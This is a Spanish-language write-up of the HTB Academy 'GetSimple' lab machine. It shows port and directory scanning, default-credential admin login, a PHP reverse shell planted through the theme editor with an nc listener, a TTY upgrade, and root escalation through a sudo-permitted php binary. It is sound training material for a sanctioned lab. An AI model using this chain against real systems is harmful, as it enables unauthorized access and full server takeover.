






____
Tags: #metasploit #Unauthenticated_RCE #missconfiguration (escalada de privilegio) #GetSimpleCMS
___
# Get Simple
## Información General

<h3> Dificultad:  </h3>
<h3> Sistema operativo: Linux</h3>
<h3> Vulnerabilidad explotada:  Unauthenticated RCE, GetSimpleCMS, missconfiguration (escalada de privilegio)</h3>
<h3> Fecha de resolución: 19/02/2026</h3>
<h3>Enlace de la mv: <a href="https://academy.hackthebox.com/course/preview/getting-started">GetSimple - HTB academy</a> </a></h3>

### *Leer el documentro en Ingles* <a href="GetSimple_ingles.md">GetSimple_ingles</a>

## Reconocimiento

**HTB** nos proporciona la ip de la máquina objetivo **10.129.12.175**
Voy a establecer en el fichero **/etc/hosts** la **ip de la mv objetivo**, la voy a llamar **gettingstarted.htb**

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 10.129.12.175
```

**Su ttl=63 es Linux**

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
nmap -sV -sC -sS --open 10.129.12.175
```

<p align="center"> 

</p>

| Open port | Service | Version                                                      |
| --------- | ------- | ------------------------------------------------------------ |
| 22        | ssh     | OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0) |
| 80        | http    | Apache httpd 2.4.41 ((Ubuntu))                               |

## Exploración

### Fuzzing web

```
gobuster dir -u http://10.129.12.175/ -w /usr/share/dirb/wordlists/common.txt
```

<p align="center"> 

</p>

A la hora de visualizar el index, tendremos que poner en nuestro fichero **/etc/hosts** la ip de la maquina objetivo. En robots.txt nos manda a la página de administración **/admin**

Investigando que cuales pueden ser las credenciales por default del CSM gettingstarted me encuentro con lo siguiente:

<p align="center"> 

</p>

## Explotación

### Metasploit

Para saber en que versión se encontraba el cms, mirando en el index de la pagina al final podemos ver su version:

<p align="center"> 

</p>

En esta sesión empiezo buscando vulnerabilidades con el comando **search GetSimple** en metasploit

<p align="center"> 

</p>

Introduzco tanto el usuario y contraseña para explotar esta vulnerabilidad

<p align="center"> 

</p>

Una vez dentro me meto en la carpeta del usuario home para obtener la primera flag.txt

### Sin Metasploit

En la página inicial nos situamos en **Theme - Edit Theme** Ahí colocamos el siguiente codigo que conseguimos [aqui](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 

<p align="center"> 

</p>

Lo único que tendríamos que cambiar sería la ip de nuestra kali y puerto por el cual queremos acceder.

Luego activar en nuestra kali el puerto de escucha **nc -lvnp nº puerto

Por último, para tener una buena conexión tendriamos que llevar acabo el tratamiento TTY

#### TTY

Si queremos hacerlo con python antes tenemos que saber que binario tiene instalado 

```
which python3
```

<p align="center"> 

</p>

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Explotación Posterior

### Escalada de Privilegios con metasploit 

#### Primer método:

```
sudo -l
```

<p align="center"> 

</p>

Para abrir una shell en metasploit escribimos lo siguiente:

```
shell
```

Me doy cuenta que el binario **/usr/bin/php** tiene permiso de sudo, por lo que ejecutaré el siguiente comando para elevar mis privilegios, sino sabemos php en esta [página](https://gtfobins.org/gtfobins/php/) lo encontraras como hacerlo.

```
CMD="/bin/sh"
sudo /usr/bin/php -r "system('$CMD');"
```

Conseguiremos ser root, y así lograr su flag.txt

## Conclusión

Esta máquina “GetSimple” del _Getting Started_ de HTB Academy es una práctica ideal para principiantes: permite ver un flujo completo y realista de pentesting, obteniendo acceso inicial (con y sin Metasploit) mediante una vulnerabilidad conocida de GetSimpleCMS y culminando con una escalada de privilegios sencilla por una mala configuración de `sudo`.

A lo largo del reto se refuerzan habilidades base como la enumeración de servicios y rutas web, la identificación de versión del CMS y la búsqueda de exploits públicos aplicables (por ejemplo para GetSimple 3.3.15), además de la importancia de comprobar permisos locales (`sudo -l`) para detectar vectores directos de escalada como la ejecución de `/usr/bin/php` con privilegios de root.